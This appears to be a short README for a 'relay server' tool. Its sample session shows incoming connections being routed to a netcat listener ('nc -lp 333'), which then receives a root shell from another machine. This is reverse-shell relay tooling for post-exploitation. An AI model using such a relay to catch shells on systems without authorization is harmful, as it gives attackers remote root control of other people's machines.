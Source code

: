 relayserver
===========

Listener to listener relay server

'''
$ nc localhost 444
--- Super Cool Relay Server v0.1 ---

Commands:
show - Show last connections
list - List scheduled relays
add - Add relay (ex. add <host> <target> <port>)
del - Delete relay(s) (ex. del <target> or del all)
clean - Clear out last connections cache

show
192.168.1.20     -- 05:55PM
192.168.1.40     -- 05:56PM

add 192.168.1.40 192.168.1.5 333

list
192.168.1.40 will be relayed to 192.168.1.5 on port 333

quit
$ ssh root@192.168.1.5
root@192.168.1.5's password: 
Last login: Sat Feb 15 02:52:32 2014 from 64.107.11.26
#
# nc -lp 333
 18:07:01 up 1 day, 10:49,  2 users,  load average: 0.23, 0.21, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    192.168.1.5      Fri17   24:37m 19:58  19:58  watch -n 0.1 ne
root     pts/1    192.168.1.5      Fri22   19:20m  7:07   0.06s -bash
Linux lamp 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root 18:07:01 up 1 day, 10:49,  2 users,  load average: 0.23, 0.21, 0.22
# ip addr show eth0 | grep inet
    inet 192.168.1.40/24 brd 192.168.1.255 scope global eth0
    inet6 fe80::5054:ff:fe01:38eb/64 scope link
'''
